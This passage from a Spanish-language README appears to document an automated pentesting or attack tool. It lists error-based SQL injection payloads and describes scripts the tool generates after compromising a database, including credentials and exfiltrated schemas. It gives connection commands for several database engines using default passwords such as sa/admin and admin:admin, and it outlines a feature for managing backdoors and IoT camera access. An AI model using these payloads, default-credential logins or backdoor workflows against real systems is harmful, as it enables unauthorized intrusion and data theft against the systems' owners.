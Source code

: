#### ❌ Error-based
```sql
' AND (SELECT * FROM (SELECT COUNT(*),CONCAT(version(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)--
' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT version()), 0x7e))--
```

### Conexiones Remotas Configuradas

Una vez comprometida una base de datos, el sistema genera:

1. **Script de conexión**: `db_connection_IP_tipo.sh`
2. **Credenciales válidas**: Usuario y contraseña
3. **Comandos de acceso**: Comandos específicos por tipo de BD
4. **Datos exfiltrados**: Esquemas, tablas, usuarios

### Comandos de Acceso

```bash
# Conectar a MySQL
mysql -h 192.168.1.5 -P 3306 -u root -p

# Conectar a MSSQL
sqlcmd -S 192.168.1.7,1433 -U sa -P admin

# Conectar a PostgreSQL
psql -h 192.168.1.12 -p 5432 -U postgres -d postgres

# Conectar a MongoDB
mongo mongodb://admin:admin@192.168.1.17:27017/admin

# Conectar a Redis
redis-cli -h 192.168.1.18 -p 6379 -a admin
```

## 🔐 Gestión de Backdoors y Accesos Remotos

### Funcionalidades Principales

El sistema de gestión de backdoors permite:

#### 📂 **Carga desde Logs Específicos**
- **Selecciona log específico** como punto de partida
- **Carga backdoors** desde evidencia guardada
- **Usa como referencia** logs de pentesting anteriores
- **Mantiene contexto** de escaneos previos

#### 🔍 **Descubrimiento Automático**
- Busca backdoors en logs de persistencia
- Identifica accesos remotos de cámaras IoT
- Detecta conexiones de bases de datos
- Carga automáticamente desde evidencia existente
